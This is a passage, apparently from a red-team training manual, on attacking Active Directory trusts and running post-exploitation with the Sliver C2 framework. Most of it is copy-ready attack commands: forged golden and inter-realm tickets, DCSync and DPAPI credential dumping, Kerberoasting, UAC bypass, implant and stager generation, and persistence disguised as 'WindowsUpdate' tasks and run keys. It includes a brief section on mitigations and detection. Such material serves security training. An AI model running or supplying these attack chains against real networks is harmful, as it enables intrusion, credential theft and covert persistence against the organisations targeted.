certipy req -u user@child.corp.local -p 'Password123' -ca corp-ROOT-CA -target root-dc.corp.local -template VulnerableTemplate -upn administrator@corp.local certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10 - Enumerate GPOs linked to AD Sites and check write permissions:
Get-DomainGPO -SearchBase "CN=Sites,CN=Configuration,DC=corp,DC=local" Get-DomainGPO -Identity "{GPO-GUID}" | Get-DomainObjectAcl -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -match "WriteProperty|GenericAll" } - Read KDS root keys and compute gMSA passwords across the forest:
python3 GoldenGMSA.py -d corp.local -u user -p 'Password123' --kds-root-key-guid <GUID> --sid <gMSA-SID> - Inject DNS records in parent domain via dnstool (WPAD or wildcard):
python3 dnstool.py -u 'child.corp.local\user' -p 'Password123' -a add -r wpad.corp.local -d attacker_ip dc01.corp.local - Get child and parent domain SIDs for ExtraSids attack:
Get-DomainSID Get-DomainSID -Domain corp.local - Forge Golden Ticket with ExtraSids (Windows):
mimikatz # kerberos::golden /user:Administrator /domain:child.corp.local /sid:S-1-5-21-CHILD-SID /krbtgt:KRBTGT_HASH /sids:S-1-5-21-PARENT-SID-519 /ptt dir \\dc01.corp.local\C$ - Forge inter-realm TGT with ExtraSids (Linux):
impacket-ticketer -nthash KRBTGT_HASH -domain child.corp.local -domain-sid S-1-5-21-CHILD-SID -extra-sid S-1-5-21-PARENT-SID-519 Administrator export KRB5CCNAME=Administrator.ccache impacket-secretsdump -k -no-pass dc01.corp.local
11.4 Cross-Forest Trust Attacks
If a two-way forest trust exists, a user in Forest A can request Kerberos service tickets for SPN-enabled accounts in Forest B. The returned tickets are encrypted with the target service account's password hash and can be cracked offline.
11.4.1 Cross-Forest Kerberoasting
If a two-way forest trust exists, a user in Forest A can request Kerberos service tickets for SPN-enabled accounts in Forest B. The returned tickets are encrypted with the target service account's password hash and can be cracked offline.
# Enumerate SPNs across forest trust
Get-DomainUser -SPN -Domain external.local -Server dc01.external.local
# Request service tickets for cross-forest SPNs
Rubeus.exe kerberoast /domain:external.local /dc:dc01.external.local /nowrap# From Linux
impacket-GetUserSPNs -dc-ip 10.10.20.10 external.local/user:Password123 -target-domain external.local -request11.4.2 Trust Account Attack
Each trust relationship has an associated trust account (a machine account object) in each domain. The trust account's password is shared between the two domains and used to create inter-realm TGTs. If an attacker can extract the trust account's password hash, they can forge inter-realm tickets.
# Dump the trust account hash using DCSync
mimikatz # lsadump::dcsync /domain:child.corp.local /user:corp$
# The trust account is named after the trusted domain with a trailing $
# Forge an inter-realm TGT
mimikatz # kerberos::golden /user:Administrator /domain:child.corp.local /sid:S-1-5-21-CHILD-SID /sids:S-1-5-21-PARENT-SID-519 /rc4:TRUST_HASH /service:krbtgt /target:corp.local /ptt# Extract trust keys with secretsdump
impacket-secretsdump -just-dc-user 'corp$' child.corp.local/admin:Password123@child-dc.child.corp.local11.4.3 Unconstrained Delegation Cross Forest
By default, TGT delegation across forest trusts is disabled. However, if the forest trust has the TRUST_ATTRIBUTE_CROSS_ORGANIZATION_ENABLE_TGT_DELEGATION flag set (or the TGTDelegation flag), unconstrained delegation servers in one forest can capture TGTs from users in the other forest.
# Check trust attributes for TGT delegation
Get-DomainTrust -Domain external.local | Select-Object TrustAttributes
# Look for: TREAT_AS_EXTERNAL, CROSS_ORGANIZATION, ENABLE_TGT_DELEGATION
# If TGT delegation is enabled, the attack is the same as intra-forest UD
# Compromise a UD server, coerce authentication from the foreign forest's DC, capture TGT11.4.4 SID History Injection Attack (Cross-Forest)
SID History is designed for domain migrations: it preserves access when accounts move between domains. When a user authenticates, all SIDs in their SIDHistory attribute are added to the access token. If an attacker can modify the SIDHistory of an account, they can inject SIDs from a foreign domain to gain access to resources in that domain.
Across forest trusts, SID filtering is enabled by default, which strips SIDs from the foreign forest's domain SIDs in the ExtraSids field. However, SID filtering may have exceptions or may be entirely disabled.
# Check if SID filtering is enabled on the trust
netdom trust corp.local /domain:external.local /quarantine
# If SID filtering is disabled, inject SIDHistory
mimikatz # sid::add /sam:targetuser /new:S-1-5-21-FOREIGN-SID-51211.4.5 SID Filter Bypass (CVE-2020-0665)
CVE-2020-0665 identified conditions under which SID filtering on forest trusts could be bypassed. The specific conditions:
- The trust had been converted from an external (non-transitive) trust to a forest trust
- The
TRUST_ATTRIBUTE_TREAT_AS_EXTERNALflag was retained from the original external trust configuration - This flag caused SID filtering to apply "external trust" rules instead of "forest trust" rules, which were less restrictive
The less restrictive external trust SID filtering allows SIDs with an RID greater than 1000 to pass through. This means an attacker could inject SIDs for custom groups (RID > 1000) from the foreign forest into a forged ticket.
# Check for the TREAT_AS_EXTERNAL flag
Get-DomainTrust -Domain external.local | Select-Object TrustAttributes
# If TREAT_AS_EXTERNAL is present on a forest trust, it may be vulnerable11.4.6 Abusing SQL Server Links (Cross-Forest)
SQL Server linked servers can create authenticated connections between SQL instances across forest boundaries. If a linked server uses a fixed SQL login or a domain service account with privileges in the foreign forest, an attacker can chain linked server queries to execute commands across the trust.
-- Enumerate linked servers
SELECT srvname, srvproduct, provider FROM master..sysservers;
-- Execute queries through linked servers
SELECT * FROM OPENQUERY([EXTERNAL-SQL], 'SELECT @@servername');
-- Chain through multiple linked servers
SELECT * FROM OPENQUERY([EXTERNAL-SQL], 'SELECT * FROM OPENQUERY([NEXT-SQL], ''SELECT @@servername'')');
-- Enable xp_cmdshell through linked server
EXEC ('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [EXTERNAL-SQL];
EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [EXTERNAL-SQL];
EXEC ('xp_cmdshell ''whoami'';') AT [EXTERNAL-SQL];# Enumerate links with mssqlclient
impacket-mssqlclient corp.local/user:Password123@sql01.corp.local
SQL> ENUM_LINKS
SQL> USE_LINK EXTERNAL-SQL
SQL> EXEC_CMD whoami11.4.7 Abusing Foreign Security Principals and ACLs (Cross-Forest)
Foreign Security Principals (FSPs) represent principals from external trusted domains/forests. When a user from Forest B is added to a group in Forest A, an FSP object is created in Forest A's CN=ForeignSecurityPrincipals container.
# Enumerate FSPs
Get-ADObject -SearchBase "CN=ForeignSecurityPrincipals,DC=corp,DC=local" -Filter * -Properties *
# Find groups containing foreign members
Get-DomainForeignGroupMember
# Resolve FSP SIDs to names
$sid = New-Object System.Security.Principal.SecurityIdentifier("S-1-5-21-FOREIGN-SID-1234")
$sid.Translate([System.Security.Principal.NTAccount]).ValueIf an account from Forest B has been granted privileged access in Forest A (via group membership or direct ACL entries), compromising that account in Forest B provides a pivot into Forest A.
# BloodHound: find cross-forest FSP edges
MATCH (u:User)-[r]->(g:Group) WHERE u.domain ENDS WITH ".external.local" AND g.domain ENDS WITH ".corp.local" RETURN u.name, type(r), g.nameMethodology
- Kerberoast across the forest trust to crack service account passwords:
impacket-GetUserSPNs -dc-ip 10.10.20.10 external.local/user:Password123 -target-domain external.local -request - Extract the trust account hash via DCSync:
impacket-secretsdump -just-dc-user 'corp$' child.corp.local/admin:Password123@child-dc.child.corp.local - Check trust attributes for TGT delegation flags:
Get-DomainTrust -Domain external.local | Select-Object TrustAttributes - Check SID filtering status and TREAT_AS_EXTERNAL flag on forest trust:
netdom trust corp.local /domain:external.local /quarantine Get-DomainTrust -Domain external.local | Select-Object TrustAttributes - Enumerate and abuse SQL Server linked servers across the trust:
SELECT srvname, srvproduct, provider FROM master..sysservers; SELECT * FROM OPENQUERY([EXTERNAL-SQL], 'SELECT @@servername'); EXEC ('xp_cmdshell ''whoami'';') AT [EXTERNAL-SQL]; - Enumerate Foreign Security Principals and cross-forest group memberships:
Get-ADObject -SearchBase "CN=ForeignSecurityPrincipals,DC=corp,DC=local" -Filter * -Properties * Get-DomainForeignGroupMember - Use BloodHound to find cross-forest FSP edges:
MATCH (u:User)-[r]->(g:Group) WHERE u.domain ENDS WITH ".external.local" AND g.domain ENDS WITH ".corp.local" RETURN u.name, type(r), g.name
11.5 PAM Trusts and Mitigations
Privileged Access Management (PAM) trusts are a special forest trust type introduced in Windows Server 2016. A PAM trust allows a "bastion" forest to manage privileged access in a "production" forest using shadow principals and time-bound group membership.
11.5.1 Abusing PAM Trusts
Privileged Access Management (PAM) trusts are a special forest trust type introduced in Windows Server 2016. A PAM trust allows a "bastion" forest to manage privileged access in a "production" forest using shadow principals and time-bound group membership.
Key concepts:
- Bastion forest: a hardened, isolated forest that manages privileged access
- Shadow principals: objects in the bastion forest that map to groups in the production forest
- Time-bound membership: principals added to shadow groups receive time-limited membership via TTL-based links
Attack vectors:
- Compromising the bastion forest grants control over all shadow principals and their associated production forest privileges
- If the PAM trust is misconfigured, standard users in the bastion forest may be able to add themselves to shadow principal groups
- The bastion forest's AD objects and ACLs should be audited for over-permissive configurations
# Enumerate PAM trust
Get-ADTrust -Filter { ForestTransitive -eq $true } | Where-Object { $_.TrustType -eq "Forest" -and $_.SelectiveAuthentication -eq $true }
# List shadow principals
Get-ADObject -SearchBase "CN=Shadow Principal Configuration,CN=Services,CN=Configuration,DC=bastion,DC=local" -Filter * -Properties *11.5.2 Trust Attack Mitigations and Detections
Mitigation strategies:
- SID filtering: ensure it is enabled on all inter-forest trusts; verify with
netdom trust /quarantine - Selective authentication: restrict which principals from the trusted forest can authenticate; set the
Allowed to Authenticatepermission on target resources - TGT delegation: disable
TRUST_ATTRIBUTE_CROSS_ORGANIZATION_ENABLE_TGT_DELEGATIONon forest trusts unless explicitly required - Tiered administration: do not share administrative credentials across trust boundaries; isolate Tier 0 assets
- Minimize cross-forest group membership: audit FSPs and remove unnecessary cross-forest access
- Protect krbtgt accounts: rotate the krbtgt password in all domains regularly (every 180 days minimum)
- Audit SQL Server links: remove or restrict cross-forest linked servers; avoid using high-privilege service accounts
Detection opportunities:
| Event | Event ID | What to Monitor |
|---|---|---|
| Kerberos TGT request | 4768 | TGTs with SIDs from foreign domains in the SIDHistory/ExtraSids field |
| Kerberos service ticket | 4769 | Cross-forest service ticket requests for sensitive SPNs |
| Trust modification | 4706, 4707, 4716 | Changes to trust direction, attributes, or SID filtering settings |
| Foreign group membership | 4728, 4732, 4756 | Principals from foreign domains added to local groups |
| ADCS enrollment | 4886, 4887 | Cross-domain certificate enrollment, especially with SANs for foreign principals |
| DNS record creation | 770-774 | New ADIDNS records (WPAD, wildcard) from foreign domain principals |
12. C2 Operations with Sliver
Command and Control (C2) frameworks provide the infrastructure for managing implants on compromised hosts. This module covers Sliver, an open-source C2 framework developed by BishopFox, purpose-built for adversary simulation and red team operations.
12.1 Sliver Overview and Setup
A C2 framework coordinates post-exploitation activity across compromised hosts. It provides encrypted communications, task management, and operational tooling from a central server. Sliver is written in Go and generates cross-platform implants with support for multiple communication protocols.
12.1.1 Introduction to C2s and Sliver
A C2 framework coordinates post-exploitation activity across compromised hosts. It provides encrypted communications, task management, and operational tooling from a central server. Sliver is written in Go and generates cross-platform implants with support for multiple communication protocols.
Key features:
- Cross-platform implants (Windows, Linux, macOS)
- Dynamic code generation per implant (unique binaries)
- Mutual TLS, WireGuard, HTTP(S), and DNS communication
- In-memory .NET assembly execution
- SOCKS5 proxying and port forwarding
- BOF (Beacon Object File) support
- Multiplayer mode for team operations
Installation
# Install Sliver server
curl https://sliver.sh/install | sudo bash
# Start the Sliver server
sliver-server
# Generate multiplayer config for team members
sliver-server operator --name operator1 --lhost 10.10.10.5 --save operator1.cfgArchitecture
Sliver uses a client-server architecture. The server manages listeners, implant generation, and task routing. Operators connect using gRPC with mutual TLS authentication. Each operator config contains certificates for secure access.
# Import operator config on client machine
sliver import operator1.cfg
# Connect to the team server
sliver12.1.2 Implants, Beacons, and Listeners
Sliver supports two implant modes: sessions (persistent real-time connections) and beacons (asynchronous callback intervals). Sessions provide instant command execution but maintain a continuous connection. Beacons check in periodically, reducing network noise.
Listener Types
| Protocol | Type | Use Case |
|---|---|---|
| mTLS | Egress | Encrypted peer-authenticated channel; best for internal networks |
| WireGuard | Egress | VPN-based transport; blends with WireGuard traffic |
| HTTP | Egress | Blends with web traffic; supports domain fronting |
| HTTPS | Egress | TLS-encrypted HTTP; most common for external operations |
| DNS | Egress | Tunnels data via DNS queries; survives strict egress filtering |
# Start an HTTPS listener
https --domain example.com --lport 443
# Start an mTLS listener
mtls --lhost 10.10.10.5 --lport 8888
# Start a DNS listener (requires authoritative NS record)
dns --domains c2.example.com --lport 53
# List active listeners (jobs)
jobsGenerating Implants
# Generate a session implant (real-time)
generate --mtls 10.10.10.5:8888 --os windows --arch amd64 --format exe --save /tmp/implant.exe
# Generate a beacon implant (async)
generate beacon --http https://example.com --os windows --arch amd64 --seconds 30 --jitter 50 --save /tmp/beacon.exe
# Generate a shared library (DLL)
generate --mtls 10.10.10.5:8888 --os windows --format shared --save /tmp/implant.dll
# Generate shellcode
generate --mtls 10.10.10.5:8888 --os windows --format shellcode --save /tmp/implant.bin
# List generated implants
implantsBeacon Configuration
Beacon mode reduces detection risk by checking in at intervals rather than maintaining persistent connections. The --seconds flag sets the callback interval and --jitter adds randomness as a percentage of the interval.
# Beacon checking in every 60 seconds with 30% jitter
generate beacon --https https://c2.example.com --seconds 60 --jitter 30 --os windows --save /tmp/beacon.exe
# Interact with a beacon (commands queue until next check-in)
use [beacon-id]
# Force immediate check-in
interactive12.1.3 Initial Access and Stagers
Stagers are small first-stage payloads that download and execute the full implant. This reduces the initial payload size and separates the delivery mechanism from the implant binary.
# Create a stager listener profile
profiles new beacon --mtls 10.10.10.5:8888 --os windows --arch amd64 --format shellcode --seconds 30 stager-profile
# Start a staging listener
stage-listener --url http://10.10.10.5:8080 --profile stager-profile
# Generate a stager (small payload that fetches the full implant)
generate stager --lhost 10.10.10.5 --lport 8080 --protocol http --save /tmp/stager.binmsf command within Sliver to spawn a Meterpreter session from an existing implant.Methodology
- Install and start the Sliver server:
curl https://sliver.sh/install | sudo bash sliver-server - Generate operator configs for multiplayer and import on client:
sliver-server operator --name operator1 --lhost 10.10.10.5 --save operator1.cfg sliver import operator1.cfg - Start listeners (HTTPS, mTLS, or DNS) for implant callbacks:
https --domain example.com --lport 443 mtls --lhost 10.10.10.5 --lport 8888 - Generate a beacon implant with appropriate transport and callback interval:
generate beacon --http https://example.com --os windows --arch amd64 --seconds 30 --jitter 50 --save /tmp/beacon.exe - Generate shellcode or DLL format if a stager or sideload is needed:
generate --mtls 10.10.10.5:8888 --os windows --format shellcode --save /tmp/implant.bin - Set up a staging listener with a profile for small first-stage delivery:
profiles new beacon --mtls 10.10.10.5:8888 --os windows --arch amd64 --format shellcode --seconds 30 stager-profile stage-listener --url http://10.10.10.5:8080 --profile stager-profile generate stager --lhost 10.10.10.5 --lport 8080 --protocol http --save /tmp/stager.bin - Verify listener status and review generated implants:
jobs implants
12.2 Commands and Post-Exploitation
Once an implant checks in, interact with it using the use command. Sliver provides built-in commands for file operations, process management, and execution.
12.2.1 Commands and Tools
Once an implant checks in, interact with it using the use command. Sliver provides built-in commands for file operations, process management, and execution.
| Command | Description |
|---|---|
info | Display implant metadata (hostname, user, PID, OS) |
ps | List running processes |
ls | List directory contents |
cd | Change working directory |
pwd | Print working directory |
cat | Read file contents |
upload | Upload a file to the target |
download | Download a file from the target |
mkdir | Create a directory |
rm | Remove a file |
shell | Spawn an interactive system shell |
execute | Execute a program (non-interactive) |
sideload | Load and execute a shared library in memory |
execute-assembly | Execute a .NET assembly in memory |
# Interact with a session
use [session-id]
# Basic recon
info
whoami
ps
ls C:\\Users
# File operations
download C:\\Users\\admin\\Desktop\\secrets.txt /tmp/secrets.txt
upload /tmp/tool.exe C:\\Windows\\Temp\\tool.exe
# Execute a command
execute -o cmd.exe /c "ipconfig /all"
# Run a .NET assembly in memory
execute-assembly /opt/tools/Seatbelt.exe -- -group=all
# Sideload a DLL
sideload /tmp/payload.dll EntryPoint12.2.2 Privilege Escalation
Privilege escalation from a standard user context to SYSTEM or Administrator enables access to protected resources and credentials stored on the host.
Checking Privileges
# Check current user and privileges
whoami
getuid
execute -o whoami /priv
# Look for exploitable services
execute-assembly /opt/tools/SharpUp.exe audit
# Check for unquoted service paths, writable service binaries, etc.
execute-assembly /opt/tools/Seatbelt.exe -- -group=systemToken Manipulation
# Elevate to SYSTEM via token impersonation
getsystem
# List available tokens
execute-assembly /opt/tools/SharpToken.exe list
# Impersonate a specific user token
impersonate DOMAIN\\admin
# Revert to original context
rev2selfUAC Bypass
# Check UAC settings
execute -o cmd.exe /c "reg query HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\System"
# UAC bypass via fodhelper
execute-assembly /opt/tools/SharpBypassUAC.exe fodhelper C:\\Windows\\Temp\\beacon.exeService Exploitation
# Find writable service binaries
execute-assembly /opt/tools/SharpUp.exe ModifiableServices
# Abuse a misconfigured service
execute -o sc.exe config VulnSvc binPath= "C:\\Windows\\Temp\\implant.exe"
execute -o sc.exe stop VulnSvc
execute -o sc.exe start VulnSvc12.2.3 Persistence
Persistence mechanisms ensure continued access after reboots or session loss.
Scheduled Tasks
# Create a scheduled task for persistence
execute -o schtasks.exe /create /tn "WindowsUpdate" /tr "C:\\Windows\\Temp\\implant.exe" /sc onlogon /ru SYSTEM
# Verify the task
execute -o schtasks.exe /query /tn "WindowsUpdate" /fo list /vRegistry Run Keys
# User-level persistence (HKCU)
execute -o reg.exe add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\Users\user\AppData\Local\Temp\implant.exe" /f
# Machine-level persistence (requires admin)
execute -o reg.exe add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\Windows\Temp\implant.exe" /fServices
# Create a new service for persistence (requires admin)
execute -o sc.exe create PersistSvc binPath= "C:\\Windows\\Temp\\implant.exe" start= auto DisplayName= "Persistence Service"
execute -o sc.exe start PersistSvcWMI Event Subscriptions
# WMI event subscription (via execute-assembly or PowerShell)
$Filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
Name = "PersistFilter"
EventNamespace = "root\cimv2"
QueryLanguage = "WQL"
Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
}
$Consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
Name = "PersistConsumer"
CommandLineTemplate = "C:\Windows\Temp\implant.exe"
}
Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
Filter = $Filter
Consumer = $Consumer
}Methodology
- Interact with a checked-in implant and gather host info:
use [session-id] info whoami ps - Run initial privilege checks and enumeration assemblies:
execute -o whoami /priv execute-assembly /opt/tools/SharpUp.exe audit execute-assembly /opt/tools/Seatbelt.exe -- -group=system - Escalate to SYSTEM via token impersonation or service abuse:
getsystem # Or exploit a misconfigured service execute-assembly /opt/tools/SharpUp.exe ModifiableServices execute -o sc.exe config VulnSvc binPath= "C:\\Windows\\Temp\\implant.exe" execute -o sc.exe stop VulnSvc execute -o sc.exe start VulnSvc - If UAC blocks elevation, bypass it:
execute -o cmd.exe /c "reg query HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\System" execute-assembly /opt/tools/SharpBypassUAC.exe fodhelper C:\\Windows\\Temp\\beacon.exe - Deploy persistence via scheduled task (SYSTEM context):
execute -o schtasks.exe /create /tn "WindowsUpdate" /tr "C:\\Windows\\Temp\\implant.exe" /sc onlogon /ru SYSTEM execute -o schtasks.exe /query /tn "WindowsUpdate" /fo list /v - Deploy persistence via registry run key:
execute -o reg.exe add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\Users\user\AppData\Local\Temp\implant.exe" /f - Deploy persistence via a new auto-start service (requires admin):
execute -o sc.exe create PersistSvc binPath= "C:\\Windows\\Temp\\implant.exe" start= auto DisplayName= "Persistence Service" execute -o sc.exe start PersistSvc
12.3 Domain Operations
Domain reconnaissance from a Sliver implant leverages BOFs (Beacon Object Files) and .NET assemblies loaded in memory to enumerate Active Directory without dropping tools to disk.
12.3.1 Domain Reconnaissance
Domain reconnaissance from a Sliver implant leverages BOFs (Beacon Object Files) and .NET assemblies loaded in memory to enumerate Active Directory without dropping tools to disk.
# Load and run BOFs for AD enumeration
# First, install the BOF extension pack
armory install all
# Enumerate domain users
sa-ldapquery -- "(objectClass=user)" cn,samaccountname,description
# Enumerate domain admins
sa-ldapquery -- "(&(objectClass=user)(memberOf=CN=Domain Admins,CN=Users,DC=corp,DC=local))" cn,samaccountname
# Run SharpHound for BloodHound collection
execute-assembly /opt/tools/SharpHound.exe -- -c All --outputdirectory C:\\Windows\\Temp
download C:\\Windows\\Temp\\*BloodHound*.zip /tmp/
# Enumerate SPNs for Kerberoasting candidates
execute-assembly /opt/tools/Rubeus.exe ; kerberoast /stats
# Run ADSearch for targeted queries
execute-assembly /opt/tools/ADSearch.exe -- --search "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" --attributes cn,ms-MCS-AdmPwd12.3.2 Pivoting
Pivoting routes traffic through a compromised host to reach isolated network segments.
SOCKS Proxy
# Start a SOCKS5 proxy through the implant
socks5 start
# The proxy binds on the Sliver server (default port 1081)
# Route tools through it
proxychains -q nmap -sT -Pn 172.16.1.0/24 -p 445,3389,5985
# Stop the proxy
socks5 stopPort Forwarding
# Forward a local port to a remote host through the implant
portfwd add --bind 127.0.0.1:8445 --remote 172.16.1.10:445
# Access the forwarded port locally
smbclient -L //127.0.0.1 -p 8445 -U 'CORP\user%password'
# List active port forwards
portfwd
# Remove a port forward
portfwd rm --id 1Pivot Listeners
# Start a TCP pivot listener on the compromised host
pivots tcp --bind 0.0.0.0:4444
# Generate an implant that connects through the pivot
generate --tcp-pivot 172.16.1.5:4444 --os windows --save /tmp/pivot-implant.exe
# The pivot implant routes through the first implant back to the C2 serverChaining Implants
Multiple implants can be chained together to reach deeply segmented networks. The first implant acts as a relay, forwarding traffic from subsequent implants back to the C2 server. Use TCP pivot listeners on each hop.
12.3.3 Kerberos Exploitation
Kerberos attacks from Sliver leverage Rubeus loaded via execute-assembly and Impacket tools through SOCKS proxies.
# AS-REPRoasting
execute-assembly /opt/tools/Rubeus.exe ; asreproast /format:hashcat /outfile:C:\\Windows\\Temp\\asrep.txt
# Kerberoasting
execute-assembly /opt/tools/Rubeus.exe ; kerberoast /format:hashcat /outfile:C:\\Windows\\Temp\\kerb.txt
# Download hashes for offline cracking
download C:\\Windows\\Temp\\asrep.txt /tmp/
download C:\\Windows\\Temp\\kerb.txt /tmp/
# Request a TGT with known credentials
execute-assembly /opt/tools/Rubeus.exe ; asktgt /user:admin /password:P@ssw0rd /domain:corp.local /ptt
# Pass the Ticket
execute-assembly /opt/tools/Rubeus.exe ; ptt /ticket:[base64-ticket]
# Via SOCKS proxy with Impacket
proxychains -q impacket-GetUserSPNs corp.local/user:password -dc-ip 172.16.1.1 -request12.3.4 Impersonation
Token impersonation allows executing commands in another user's security context without knowing their password.
# Create a token with known credentials
make-token -u admin -d CORP -p 'P@ssw0rd'
# Impersonate a logged-in user's token
impersonate CORP\\admin
# Verify the impersonated context
getuid
execute -o whoami
# Steal a token from a running process
steal-token [PID]
# Revert to original identity
rev2selfMethodology
- Install BOF extensions and run AD enumeration queries:
armory install all sa-ldapquery -- "(objectClass=user)" cn,samaccountname,description sa-ldapquery -- "(&(objectClass=user)(memberOf=CN=Domain Admins,CN=Users,DC=corp,DC=local))" cn,samaccountname - Run SharpHound collection and download results:
execute-assembly /opt/tools/SharpHound.exe -- -c All --outputdirectory C:\\Windows\\Temp download C:\\Windows\\Temp\\*BloodHound*.zip /tmp/ - Start a SOCKS5 proxy or port forward for reaching isolated segments:
socks5 start portfwd add --bind 127.0.0.1:8445 --remote 172.16.1.10:445 - Set up TCP pivot listeners to chain implants into segmented networks:
pivots tcp --bind 0.0.0.0:4444 generate --tcp-pivot 172.16.1.5:4444 --os windows --save /tmp/pivot-implant.exe - Execute Kerberos attacks (AS-REPRoast, Kerberoast) and download hashes:
execute-assembly /opt/tools/Rubeus.exe ; asreproast /format:hashcat /outfile:C:\\Windows\\Temp\\asrep.txt execute-assembly /opt/tools/Rubeus.exe ; kerberoast /format:hashcat /outfile:C:\\Windows\\Temp\\kerb.txt download C:\\Windows\\Temp\\kerb.txt /tmp/ - Request and inject Kerberos tickets for authenticated access:
execute-assembly /opt/tools/Rubeus.exe ; asktgt /user:admin /password:P@ssw0rd /domain:corp.local /ptt execute-assembly /opt/tools/Rubeus.exe ; ptt /ticket:[base64-ticket] - Impersonate another user via token creation or theft:
make-token -u admin -d CORP -p 'P@ssw0rd' impersonate CORP\\admin getuid rev2self
12.4 Lateral Movement and Escalation
Lateral movement spreads access to additional hosts within the network. Sliver provides built-in commands and supports external tooling via execute-assembly and SOCKS proxying.
12.4.1 Lateral Movement
Lateral movement spreads access to additional hosts within the network. Sliver provides built-in commands and supports external tooling via execute-assembly and SOCKS proxying.
# PsExec-style lateral movement
psexec -t 172.16.1.10 -u CORP\\admin -p 'P@ssw0rd' -s /tmp/implant.exe
# WMI lateral movement via Impacket through SOCKS
proxychains -q impacket-wmiexec CORP/admin:'P@ssw0rd'@172.16.1.10
# WinRM lateral movement via Impacket through SOCKS
proxychains -q evil-winrm -i 172.16.1.10 -u admin -p 'P@ssw0rd'
# Upload and execute on remote host via SMB
upload /tmp/implant.exe \\\\172.16.1.10\\C$\\Windows\\Temp\\implant.exe
execute-assembly /opt/tools/SharpWMI.exe ; action=exec computername=SRV01 command="C:\\Windows\\Temp\\implant.exe"12.4.2 Kerberos Delegation
Delegation attacks allow escalating privileges by abusing how Kerberos forwards authentication to backend services.
Unconstrained Delegation
# Find unconstrained delegation computers
execute-assembly /opt/tools/ADSearch.exe -- --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes cn,dnshostname
# Monitor for incoming TGTs (requires SYSTEM on the delegation host)
execute-assembly /opt/tools/Rubeus.exe ; monitor /interval:5 /nowrap
# Coerce authentication from a DC using SpoolSample
execute-assembly /opt/tools/SpoolSample.exe DC01.corp.local DVHOST01.corp.local
# Use the captured TGT
execute-assembly /opt/tools/Rubeus.exe ; ptt /ticket:[base64-ticket]Constrained Delegation
# Find constrained delegation accounts
execute-assembly /opt/tools/ADSearch.exe -- --search "(&(objectCategory=*)(msDS-AllowedToDelegateTo=*))" --attributes cn,msDS-AllowedToDelegateTo
# Perform S4U attack to obtain a service ticket as any user
execute-assembly /opt/tools/Rubeus.exe ; s4u /user:sqlsvc /rc4:[hash] /impersonateuser:administrator /msdsspn:cifs/DC01.corp.local /pttResource-Based Constrained Delegation
# Check if you can write msDS-AllowedToActOnBehalfOfOtherIdentity
execute-assembly /opt/tools/StandIn.exe -- --computer SRV01 --object
# Configure RBCD (requires write access to the target computer object)
execute-assembly /opt/tools/StandIn.exe -- --computer SRV01 --grant YOURCOMPUTER$ --write
# Alternatively via PowerView through execute-assembly
execute-assembly /opt/tools/Rubeus.exe ; hash /password:Password123 /user:YOURCOMPUTER$ /domain:corp.local
execute-assembly /opt/tools/Rubeus.exe ; s4u /user:YOURCOMPUTER$ /rc4:[hash] /impersonateuser:administrator /msdsspn:cifs/SRV01.corp.local /ptt12.4.3 DACL Exploitation
DACL abuse through Sliver uses .NET assemblies and BOFs to read and modify Active Directory permissions without writing tools to disk.
# Enumerate ACLs for a target object
execute-assembly /opt/tools/ADSearch.exe -- --search "(samaccountname=Domain Admins)" --attributes ntsecuritydescriptor
# Check for abusable ACLs with SharpHound
execute-assembly /opt/tools/SharpHound.exe -- -c ACL --outputdirectory C:\\Windows\\Temp
# ForceChangePassword (if you have that right)
execute-assembly /opt/tools/SharpSploit.dll ; SetAccountPassword CORP\\targetuser NewP@ssw0rd!
# GenericWrite: set an SPN for targeted Kerberoasting
execute-assembly /opt/tools/StandIn.exe -- --object targetuser --spn HTTP/fake.corp.local
# GenericAll on a computer: configure RBCD
execute-assembly /opt/tools/StandIn.exe -- --computer TARGET$ --grant YOURCOMPUTER$ --write
# WriteDacl: grant yourself DCSync rights
execute-assembly /opt/tools/PowerView.exe ; Add-DomainObjectAcl -TargetIdentity "DC=corp,DC=local" -PrincipalIdentity youruser -Rights DCSync12.4.4 Domain Controller Compromise
Compromising a domain controller grants complete control over the Active Directory environment.
DCSync via secretsdump
# DCSync from Sliver via SOCKS proxy
proxychains -q impacket-secretsdump CORP/admin:'P@ssw0rd'@172.16.1.1 -just-dc-ntlm
# DCSync a specific account
proxychains -q impacket-secretsdump CORP/admin:'P@ssw0rd'@172.16.1.1 -just-dc-user krbtgt
# DCSync via Mimikatz loaded through execute-assembly
execute-assembly /opt/tools/SharpKatz.exe -- --Command dcsync --User corp\\krbtgt --Domain corp.localGolden Ticket
# Forge a golden ticket with the krbtgt hash
execute-assembly /opt/tools/Rubeus.exe ; golden /rc4:[krbtgt-hash] /domain:corp.local /sid:S-1-5-21-... /user:fakeadmin /ptt
# Via Impacket through SOCKS
proxychains -q impacket-ticketer -nthash [krbtgt-hash] -domain-sid S-1-5-21-... -domain corp.local fakeadmin
export KRB5CCNAME=fakeadmin.ccache
proxychains -q impacket-psexec -k -no-pass corp.local/fakeadmin@DC01.corp.localDPAPI
# Extract the DPAPI backup key from the DC
proxychains -q impacket-dpapi backupkeys -t corp.local/admin:'P@ssw0rd'@172.16.1.1 --export
# Decrypt DPAPI-protected secrets
execute-assembly /opt/tools/SharpDPAPI.exe ; triage /password:P@ssw0rd
# Dump credential manager vaults
execute-assembly /opt/tools/SharpDPAPI.exe ; credentials /password:P@ssw0rd12.4.5 Whole Forest Compromise
After compromising a child domain, trust relationships can be exploited to escalate to the forest root.
# Enumerate trust relationships
